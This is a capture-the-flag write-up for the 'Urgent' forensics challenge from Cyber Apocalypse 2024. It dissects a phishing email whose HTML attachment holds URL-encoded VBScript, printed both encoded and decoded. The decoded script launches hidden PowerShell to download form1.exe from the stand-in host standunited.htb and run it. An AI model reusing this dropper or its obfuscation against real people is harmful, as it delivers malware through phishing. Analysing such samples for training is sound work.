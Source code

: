# Cyber Apocalypse 2024

## Urgent

> In the midst of Cybercity's "Fray," a phishing attack targets its factions, sparking chaos. As they decode the email, cyber sleuths race to trace its source, under a tight deadline. Their mission: unmask the attacker and restore order to the city. In the neon-lit streets, the battle for cyber justice unfolds, determining the factions' destiny.
> 
> Author: thewildspirit
> 
> [`forensics_urgent.zip`](forensics_urgent.zip)

Tags: _forensics_

## Solution
The challenge comes with a `eml` file. Eml files contain email content as plain text. Inside this file we have an e-mail from `anonmember1337@protonmail.com` sent to `factiongroups@gmail.com`.

```bash
X-Pm-Content-Encryption: end-to-end
X-Pm-Origin: internal
Subject: =?utf-8?Q?Urgent:_Faction_Recruitment_Opportunity_-_Join_Forces_Against_KORP=E2=84=A2_Tyranny!?=
From: anonmember1337 <anonmember1337@protonmail.com>
Date: Thu, 29 Feb 2024 12:52:17 +0000
Mime-Version: 1.0
Content-Type: multipart/mixed;boundary=---------------------2de0b0287d83378ead36e06aee64e4e5
To: factiongroups@gmail.com <factiongroups@gmail.com>
X-Attached: onlineform.html
Message-Id: <XVhH1Dg0VTGbfCjiZoHYDfUEfYdR0B0ppVem4t3oCwj6W21bavORQROAiXy84P6MKLpUKJmWRPw5C529AMwxhNiJ-8rfYzkdLjazI5feIQo=@protonmail.com>
X-Pm-Scheduled-Sent-Original-Time: Thu, 29 Feb 2024 12:52:05 +0000
X-Pm-Recipient-Authentication: factiongroups%40gmail.com=none
X-Pm-Recipient-Encryption: factiongroups%40gmail.com=none
```

The email decoded email content immediately gives us some fishing vibes but is less interesting, but there is also a file called `onlineform.html` attached. After decoding we get a html document that executes some obfuscated code. 

```html
<html>
<head>
<title></title>
<body>
<script language="JavaScript" type="text/javascript">
document.write(unescape('%3c%68%74%6d%6c%3e%0d%0a%3c%68%65%61%64%3e%0d%0a%3c%74%69%74%6c%65%3e%20%3e%5f%20%3c%2f%74%69%74%6c%65%3e%0d%0a%3c%63%65%6e%74%65%72%3e%3c%68%31%3e%34%30%34%20%4e%6f%74%20%46%6f%75%6e%64%3c%2f%68%31%3e%3c%2f%63%65%6e%74%65%72%3e%0d%0a%3c%73%63%72%69%70%74%20%6c%61%6e%67%75%61%67%65%3d%22%56%42%53%63%72%69%70%74%22%3e%0d%0a%53%75%62%20%77%69%6e%64%6f%77%5f%6f%6e%6c%6f%61%64%0d%0a%09%63%6f%6e%73%74%20%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%20%3d%20%33%0d%0a%09%43%6f%6e%73%74%20%48%49%44%44%45%4e%5f%57%49%4e%44%4f%57%20%3d%20%31%32%0d%0a%09%53%65%74%20%4c%6f%63%61%74%6f%72%20%3d%20%43%72%65%61%74%65%4f%62%6a%65%63%74%28%22%57%62%65%6d%53%63%72%69%70%74%69%6e%67%2e%53%57%62%65%6d%4c%6f%63%61%74%6f%72%22%29%0d%0a%09%53%65%74%20%53%65%72%76%69%63%65%20%3d%20%4c%6f%63%61%74%6f%72%2e%43%6f%6e%6e%65%63%74%53%65%72%76%65%72%28%29%0d%0a%09%53%65%72%76%69%63%65%2e%53%65%63%75%72%69%74%79%5f%2e%49%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%4c%65%76%65%6c%3d%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%0d%0a%09%53%65%74%20%6f%62%6a%53%74%61%72%74%75%70%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%53%74%61%72%74%75%70%22%29%0d%0a%09%53%65%74%20%6f%62%6a%43%6f%6e%66%69%67%20%3d%20%6f%62%6a%53%74%61%72%74%75%70%2e%53%70%61%77%6e%49%6e%73%74%61%6e%63%65%5f%0d%0a%09%53%65%74%20%50%72%6f%63%65%73%73%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%22%29%0d%0a%09%45%72%72%6f%72%20%3d%20%50%72%6f%63%65%73%73%2e%43%72%65%61%74%65%28%22%63%6d%64%2e%65%78%65%20%2f%63%20%70%6f%77%65%72%73%68%65%6c%6c%2e%65%78%65%20%2d%77%69%6e%64%6f%77%73%74%79%6c%65%20%68%69%64%64%65%6e%20%28%4e%65%77%2d%4f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%57%65%62%43%6c%69%65%6e%74%29%2e%44%6f%77%6e%6c%6f%61%64%46%69%6c%65%28%27%68%74%74%70%73%3a%2f%2f%73%74%61%6e%64%75%6e%69%74%65%64%2e%68%74%62%2f%6f%6e%6c%69%6e%65%2f%66%6f%72%6d%73%2f%66%6f%72%6d%31%2e%65%78%65%27%2c%27%25%61%70%70%64%61%74%61%25%5c%66%6f%72%6d%31%2e%65%78%65%27%29%3b%53%74%61%72%74%2d%50%72%6f%63%65%73%73%20%27%25%61%70%70%64%61%74%61%25%5c%66%6f%72%6d%31%2e%65%78%65%27%3b%24%66%6c%61%67%3d%27%48%54%42%7b%34%6e%30%74%68%33%72%5f%64%34%79%5f%34%6e%30%74%68%33%72%5f%70%68%31%73%68%69%31%6e%67%5f%34%74%74%33%6d%70%54%7d%22%2c%20%6e%75%6c%6c%2c%20%6f%62%6a%43%6f%6e%66%69%67%2c%20%69%6e%74%50%72%6f%63%65%73%73%49%44%29%0d%0a%09%77%69%6e%64%6f%77%2e%63%6c%6f%73%65%28%29%0d%0a%65%6e%64%20%73%75%62%0d%0a%3c%2f%73%63%72%69%70%74%3e%0d%0a%3c%2f%68%65%61%64%3e%0d%0a%3c%2f%68%74%6d%6c%3e%0d%0a'));
</script>
</body>
</html>
```

To deobfuscate we just copy the `unescape(....)` part and execute it with `NodeJS`, giving us the html content in plaintext, and within also the flag.

```javascript
'<html>\r\n' +
  '<head>\r\n' +
  '<title> >_ </title>\r\n' +
  '<center><h1>404 Not Found</h1></center>\r\n' +
  '<script language="VBScript">\r\n' +
  'Sub window_onload\r\n' +
  '\tconst impersonation = 3\r\n' +
  '\tConst HIDDEN_WINDOW = 12\r\n' +
  '\tSet Locator = CreateObject("WbemScripting.SWbemLocator")\r\n' +
  '\tSet Service = Locator.ConnectServer()\r\n' +
  '\tService.Security_.ImpersonationLevel=impersonation\r\n' +
  '\tSet objStartup = Service.Get("Win32_ProcessStartup")\r\n' +
  '\tSet objConfig = objStartup.SpawnInstance_\r\n' +
  '\tSet Process = Service.Get("Win32_Process")\r\n' +
  `\tError = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('https://standunited.htb/online/forms/form1.exe','%appdata%\\form1.exe');Start-Process '%appdata%\\form1.exe';$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}", null, objConfig, intProcessID)\r\n` +
  '\twindow.close()\r\n' +
  'end sub\r\n' +
  '</script>\r\n' +
  '</head>\r\n' +
  '</html>\r\n'
```

Flag `HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}`